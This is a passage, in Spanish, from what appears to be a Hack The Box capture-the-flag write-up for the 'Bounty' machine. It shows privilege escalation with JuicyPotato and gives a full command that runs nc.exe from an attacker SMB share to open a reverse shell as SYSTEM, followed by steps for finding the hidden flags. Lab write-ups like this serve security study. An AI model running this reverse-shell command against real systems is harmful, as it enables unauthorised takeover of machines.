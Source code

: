 Descargamos **JuicyPotato.exe** desde su repositorio en Github y lo transferimos a la máquina. Una vez con esto hecho, utilizaremos **netcat** nuevamente para obtener una nueva consola, esta vez como ```nt authority\system```.

* ```JuicyPotato.exe -l 1337 -t * -p cmd.exe -a "/c \\10.10.14.90\shared\nc.exe -e cmd 10.10.14.90 1443"```

![](/images/HTB/Bounty/45-root-user.png)

Finalmente buscaremos las flags, la de root se encuentra sin problemas en la ubicación usual.

![](/images/HTB/Bounty/48-flags.png)

La flag del usuario podremos encontrarla con el commando ```attrib``` o ```dir -Force``` ya que se encuentra oculta.
